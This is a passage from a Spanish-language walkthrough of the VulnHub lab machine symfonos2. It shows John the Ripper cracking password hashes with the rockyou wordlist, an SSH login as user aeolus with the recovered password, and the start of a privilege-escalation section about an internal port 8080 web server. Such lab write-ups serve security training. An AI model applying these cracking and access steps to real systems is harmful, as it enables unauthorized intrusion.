 ```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt creds.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sergioteamo      (aeolus)
```

Ingresamos por ssh.

```bash
❯ ssh aeolus@10.11.12.27
The authenticity of host '10.11.12.27 (10.11.12.27)' can't be established.
ED25519 key fingerprint is SHA256:bVM6iESUngv842ilwZ5pthpPxRaIrgL4RxNNbnBFssQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.11.12.27' (ED25519) to the list of known hosts.
aeolus@10.11.12.27's password:
Linux symfonos2 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 18 08:52:59 2019 from 192.168.201.1
aeolus@symfonos2:~$
```

## Escalación de privilegios

---

Verificando los puertos internos, observamos el puerto 8080 que corre internamente un webserver, bajo el usuario `cronus`.

![apache](/assets/img/commons/vulnhub/symfonos2/apache.png){: .center-image }
![8080](/assets/img/commons/vulnhub/symfonos2/8080.png){: .center-image }

